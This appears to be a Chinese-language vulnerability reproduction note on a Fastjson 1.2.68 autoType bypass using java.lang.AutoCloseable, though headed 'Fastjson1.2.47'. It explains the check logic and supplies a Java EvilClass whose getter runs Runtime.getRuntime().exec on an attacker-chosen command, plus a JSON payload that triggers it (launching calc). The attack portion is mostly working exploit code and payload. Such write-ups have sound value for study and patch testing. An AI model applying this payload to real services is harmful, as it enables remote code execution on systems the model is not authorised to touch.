


# Fastjson1.2.47
## 环境搭建
[搭建方法](../../../arsenal/environment-setup/java-cve-debug.md)



## 1.2.68
>引入safeMode：完全禁用 @type，彻底关闭反序列化任意类（但默认关闭）
>禁用Class.class的缓存机制

**绕过手法**

- 第一步："@type":"java.lang.AutoCloseable"
   
- 第二步："@type":"恶意类"

- 第三步：触发RCE

**实现原理**

- 第一次 @type: AutoCloseable	AutoCloseable 是 Java 标准接口，在白名单中，直接放行
- 第二次 @type: 恶意类	恶意类必须继承 AutoCloseable 或实现该接口
- expectClass = AutoCloseable 传入	校验逻辑：expectClass.isAssignableFrom(maliciousClass) → true
- 黑名单检查	恶意类不在黑名单中 → 绕过
- 触发方式	可以通过构造方法、setter、toString 等方式触发


## 漏洞复现

**在src/main/java/com/ 目录下创建恶意类**
```java
package com;
import java.io.IOException;

public class EvilClass implements AutoCloseable {
    private String cmd;
    public EvilClass (String cmd){
        this.cmd=cmd;
    }
    

    public void setCmd(String cmd){
        this.cmd = cmd;

    } 
    
    @Override
    public void close() throws Exception {
        
    }

    public String getCmd() throws IOException {
        Runtime.getRuntime().exec(this.cmd);
        return this.cmd;
    }
}

```

**payload**

```
{
    "@type":"java.lang.AutoCloseable",
    "@type":"com.EvilClass",
    "cmd":"calc"
}
```

**注入payload实现RCE**



漏洞利用成功

